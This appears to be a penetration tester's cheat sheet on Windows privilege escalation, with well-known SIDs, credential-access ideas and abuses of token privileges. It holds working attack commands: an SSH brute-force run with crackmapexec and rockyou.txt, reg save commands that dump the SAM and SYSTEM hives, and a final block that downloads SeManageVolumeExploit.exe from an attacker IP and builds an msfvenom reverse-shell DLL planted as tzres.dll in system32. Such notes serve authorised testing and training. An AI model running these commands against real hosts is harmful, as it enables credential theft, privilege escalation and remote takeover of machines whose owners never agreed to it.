 
#### SID

```
S-1-0-0                       Nobody        
S-1-1-0	                      Everybody
S-1-5-11                      Authenticated Users
S-1-5-18                      Local System
S-1-5-domainidentifier-500    Administrator
```

#### Credential Access

- reused passwords
- credentials from config file
- credentials from local DB
- credentials from cmdkey (`cmdkey /list`): https://hacklido.com/blog/542-privileges-escalation-techniques-basic-to-advanced-for-windows-part-3
- credentials from log file
- user groups
- can read SAM and SYSTEM files
- brute force attack
```
crackmapexec ssh <ip> -u <user> -p /usr/share/wordlists/rockyou.txt
```

#### Abusing Tokens

- SeImpersonatePrivilege
- SeAssignPrimaryTokenPrivilege
- SeDebugPrivilege
	- run mimikatz
- SeRestorePrivilege
	- get SAM and SYSTEM files
	- open cmd as system if you have rdp
- SeBackupPrivilege
	- get SAM and SYSTEM files
		- `reg save hklm\sam C:\temp\sam.hive`
		- `reg save hklm\system C:\temp\system.hive`
	- open cmd as system if you have rdp
	- read any file: Acl-FullControl.ps1
- SeManageVolumePrivilege / SeChangeNotifyPrivilege - This exploit grants full permission on C:\ drive for all users on the machine
```
#PE
# download SeManageVolumeExploit.exe to target
# https://github.com/CsEnox/SeManageVolumeExploit
curl http://192.168.45.224:8000/SeManageVolumeExploit.exe -o SeManageVolumeExploit.exe

# run it - after we get permmisions to write to c:\
.\SeManageVolumeExploit.exe

# PoC
echo "hi" > test.txt

# generate malicious dll
# tzres.dll used when we execute "systeminfo" command
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.224 LPORT=9999 -f dll -o tzres.dll

# download it to the right path
curl http://192.168.45.224:8000/tzres.dll -o C:\windows\system32\wbem\tzres.dll

# execute 
systeminfo
```
